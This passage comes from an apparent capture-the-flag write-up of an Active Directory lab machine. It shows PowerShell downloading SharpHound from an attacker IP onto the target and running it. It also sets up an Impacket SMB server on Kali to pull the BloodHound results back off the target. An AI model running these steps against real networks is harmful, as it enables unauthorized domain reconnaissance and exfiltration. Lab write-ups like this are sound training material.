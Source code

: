 



<hr width="300" size="10">



I make my working directory to ensure I've got all the permissions I need, and to contain all my materials in one place,
making it easier to remove later.

```
mkdir c:\boo
```
changing to that directory I upload SharpHound.exe to it.

```
PS > iwr -uri http://10.10.14.24/SharpHound.exe -outfile c:\boo\sh.exe
```


Execute it with
```
sh.exe
```


![bloodhound](/assets/img/forest/forest-bloodhound.png)

Bloodhound creates a zip file that we need to get back to Kali.

Impacket's smbserver.py can help us here.

```
root@kali:~/HTB/active/forest# smbserver.py sh1n . -smb2support -username foo -password bar
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

